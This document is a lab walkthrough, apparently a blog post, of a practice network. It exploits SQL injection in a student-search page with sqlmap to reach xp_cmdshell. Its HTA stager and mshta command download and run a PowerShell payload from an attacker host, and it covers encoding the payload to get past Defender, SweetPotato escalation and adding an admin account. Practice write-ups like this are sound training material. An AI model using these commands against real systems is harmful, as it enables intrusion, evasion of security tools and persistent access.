### NHA Part 2

#### Webapp time!

- With some (painful...) injection work and finally a nice shell

Previously we did a quick once over of the network and found the web application sitting on `192.168.56.21`.

Lets take a little bit here and see what we could potentially do with the web application

#### Browsing the pages

The first step we will take is simply to "Map the application", we can click between the pages and attempt to enumerate some information.

1. The contact page seems to give us two potential usernames

```txt
frank.umino
olivia.davis
```

There's nothing we can do with those right away so lets just continue...

2. `/Students` seems very interesting

- Search by name function
- Order by function

We could do some [targeted scanning](https://portswigger.net/web-security/essential-skills/using-burp-scanner-during-manual-testing/lab-discovering-vulnerabilities-quickly-with-targeted-scanning) on this function for SQLi.

- `http://192.168.56.21/Students?SearchString=test&orderBy=LastName`

3. We can also run a dirsearch/feroxbuster on the web application and attempt to find any hidden logins, sensitive information etc

:::danger
For both the targeted scanning and the dirsearch, be careful with how much you hammer the webserver in the lab. It can get a bit cranky and crash if we aren't careful.
:::

:::info
Additionally - the below is a bit confusing to say the least:

This is due to the lab crashing constantly at this phase and I am not quite sure what I did wrong - I make a note of this later but to state here, I had to completely nuke and pave to get things working appropriately.

Thus below is a few steps that kind of worked in discovery - nuking the lab - immediately catching our foothold. Apologies for any confusion!
:::

#### Method 1 SQLi w/ Sqlmap

While we could use burpsuite as alluded to in the article above, it is also just as straightforward to use `sqlmap` as the query string is just in the URL.

- This isn't always the case and generally you will need to send your injection through the request body.

:::tip
While not specified, you will be prompted with Y/n questions from `sqlmap` pick what makes sense (usually the default suggestion)
:::

```bash
sqlmap -u 'http://web.academy.ninja.lan/Students?SearchString=test&orderBy=LastName' --threads 5  
```

If all went well - this should be successful!

Now lets find out who is executing the sql queries to give us an idea of our potential next steps.

```bash
sqlmap -u 'http://web.academy.ninja.lan/Students?SearchString=test&orderBy=LastName' --current-user --is-dba 
```



- SA is **THE** sqlserver account which is perfect
- We are also (obviously) database administrator

Now lets see if we can get a proper shell to work with.

```bash
sqlmap -u 'http://web.academy.ninja.lan/Students?SearchString=test&orderBy=LastName' --os-shell
```

:::info
You may be prompted to enable `xp_cmdshell`, you will want to ensure you hit yes to this
:::

*OS-Shell through Sqlmap*


:::warning
This method *should* work, and I have had it work but it can be very finnicky. If your having issues you can try using `*` in specific locations (such as after "sortby=" to try and be more specific on where to inject and pray you get a better output
:::

#### Method 2 SQLi w/ Burpsuite

If we wanted to use targeted scanning to attempt to find SQLi we could do the following



- Right click and use the "scan defined insertion points"
- You will need to create or import a SQLi profile to make this happen, I really like to use [these profiles](https://github.com/TheGetch/Burp-Suite-Pro-Scan-Profiles)

Once you've discovered the SQLi with burp:


We can clean it up slightly and save it to our working folder:

- Ensure you add that `http://` in the host line!

```txt
GET http://web.academy.ninja.lan/Students?SearchString=1234&orderBy=* HTTP/1.1
Host: http://web.academy.ninja.lan
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-CA,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://web.academy.ninja.lan/Students
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

Then use the following to find our best injection method:

```text
sqlmap -r req -risk 3 -level 5 --flush-session --dbms mssql --batch 
```

And then finally attempt for a shell

```text
sqlmap -r req --batch --os-shell
```

Aaaand....we failed! Stacked queries are getting in our way. After tinkering with this for a long while, lets try ... rebuilding the lab and seeing what happens :)

- I also tried dumping the db with nothing super interesting inside

#### One.More.Time!

```text
sqlmap -u 'http://web.academy.ninja.lan/Students?SearchString=123&orderBy=Firstname' --flush-session --level=5 --risk=3 --dbms mssql --batch --technique=S --time-sec=15
```

- Note the `--technique=S` to force sqlmap to find stacked queries as we need them for command execution



Ok! Lets try and get the shell this time!

##### Getting a reverse shell

:::tip
I had to shut the lab off and bring it back up so I ended up using the following to get the command to go -- again -- if your lab is finnicky and breaking... this took me a couple reinstalls of the whole lab to get working
:::

First lets get our payloads ready:

###### Mythical Merlin

I have taken a liking to mythic right now, I tend to flip between Mythic and Sliver... Havoc I belive is the new current hotness. I would assume everything works if you give it enough time :)

For now the following information will have to suffice:

- Im using [Mythic](https://docs.mythic-c2.net/installation)
- We will use the merlin agent (feature rich, but very hefty... A life goal of mine is to build my own agent but I still have to learn some programming)

  - Found [here](https://github.com/MythicAgents/merlin)

**Payload Info**
I simply made a bin file from merlin and saved it to my kali

- From here you can use whatever obfuscation techniques your heart desires -- one of the things I like about merlin is it seems to play ok with a lot of the things I learned during OSEP. Whereas some of the other agents do not (this could entirely be a skill issue and I am aware of it hah)
- For tha lab I simply AES encoded the bin file and inside a powershell runner I will remotely download the code, decode and execute.

  - This generally works for Defender - Unsurprisingly - It does get caught by better AVs.

###### Catching the shell

- Since we're sending a command from `xp_cmdshell` and that uses `cmd` it wont be as straight forward to get a powershell cradle...so to do something a little janky we can wrap it in a classic `hta` file and get it rocking

```hta
<html>
<head>
<script language="JScript">
var shell = new ActiveXObject("WScript.Shell");
var re = shell.Run("powershell -Command \"irm http://192.168.122.46:8443/nihlathak.ps1 | iex\"")
</script>
</head>
<body>
<script language="JScript">
self.close();
</script>
</body>
</html>
```

- If this HTA thing excites you - I would turn your attention to Youcef's write up found [here](https://medium.com/@youcef.s.kelouaz/writing-a-sliver-c2-powershell-stager-with-shellcode-compression-and-aes-encryption-9725c0201ea8), you can use the same idea with msf, mythic or whatever you want really. Practical for todays environments? probably not - however, during OSEP I abused this HTA -> Call -> Shell pathway a lot.

Now! lets send our sqlmap...and hope...

```bash
sqlmap -u 'http://web.academy.ninja.lan/Students?SearchString=123&orderBy=Firstname' --os-cmd 'mshta.exe http://192.168.122.46:8443/act1.hta' --dbms mssql --batch --technique=S --flush-session
```

:::danger
Dont be like this guy and try it twice and forget to remove `--flush-session`... if you do not need to flush... make sure to remove
:::

- This will take...a while...coffee time.

#### Success! && Persistence



We did it! We are successfully on the machine

##### Persistance

Now that we are on the machine we can do a quick `whoami /priv` with your favourite C2 and get our results - that being we have Impersonate privileges!

- Afterwards you can do one of two things

1. Spend hours trying to get sweetpotato to work and call your hta/powershell runner only to have it fail
2. Make a local admin account and call it good.

...I got a lot of practice with `donut` and `sweetpotato`

But in the end...





We did ok.

So a bit of background on what was done:

SweetPotato can be found [here](https://github.com/CCob/SweetPotato) and in mythic (with our merlin agent) we are able to use `load-assembly` to load in sweetpotato.exe into the C2 "storage" of sorts, the picture below shows the exe loaded within the C2 framework:



Then we can use `Invoke-Assembly` to add our account (same image as shown above)


:::warning
While I actually have never done a full Red Team operation -- from what I understand adding users is basically like calling the blue team and seeing when they're available for a debrief - however, I wasnt able to get any webtraffic out of this to reach our callback... perhaps if we could use dns? it would be worth investigating some other time for the practice
:::

#### Collecting our flags

So trying to use our hta via nxc does seem to actually call back to our python listener - however no shell...which is odd. We could go through the exercise of either a) disabling AV or b) messing with the firewall...but maybe this is a good excuse for showing off one of the cooler things Ive found.

##### Obfuscating Remcom

Check this out: [Snovvcrash Remcom](https://gist.github.com/snovvcrash/123945e8f06c7182769846265637fedb)

- Once setup its pretty amazing if there's AV causing your psexec to just hang



Anyway time for flags!

Flag 1: `NHA{MSSdQL_Inject1on_FTW;)}`

Flag 2: `NHA{OwwwYouTouchMyPatato!}`

Obligatory ipconfig/flag screenshot:



Next we can dump -> and start asking ourselves "What can we do with credentials/hashes?"
